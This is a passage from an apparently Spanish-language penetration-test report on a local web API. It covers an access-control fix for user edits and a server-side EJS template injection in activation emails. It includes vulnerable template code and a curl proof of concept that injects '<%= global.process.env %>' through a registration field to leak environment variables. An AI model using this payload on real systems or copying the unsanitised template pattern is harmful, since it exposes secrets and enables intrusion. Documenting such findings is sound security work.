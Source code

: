 ```sh
curl -X PUT http://localhost:3000/users/2 \
  -H "Authorization: Bearer <TOKEN_USUARIO_A>" \
  -H "Content-Type: application/json" \
  -d '{"username":"hackeado","email":"hack@evil.com","first_name":"Mal","last_name":"Actor","password":"1234"}'
```

**Respuesta obtenida tras la mitigación:**

```json
{ "message": "Forbidden: cannot modify other users" }
```

**Evidencia:**
![pt_mitigacion.jpeg](evidencias/ma_mitigacion.jpeg)

## 6. Inyección de comandos en plantillas (Template Command Injection)

### Prueba de Concepto (PoC)

**Contexto técnico:**
En `authService.ts`, el backend genera el HTML del email de activación así:

```js
const template = `
  <html>
    <body>
      <h1>Hello ${user.first_name} ${user.last_name}</h1>
      <p>Click <a href="${link}">here</a> to activate your account.</p>
    </body>
  </html>`;
const htmlBody = ejs.render(template);
```

Los datos del usuario se insertan sin sanitización, permitiendo inyección de código EJS.

**PoC:**

1. Registrar un usuario con un nombre malicioso:

```sh
curl -X POST http://localhost:3000/users \
  -H "Content-Type: application/json" \
  -d '{"username":"evilunique","password":"1234","email":"evilunique@example.com","first_name":"<%= global.process.env %>","last_name":"Hacker"}'
```
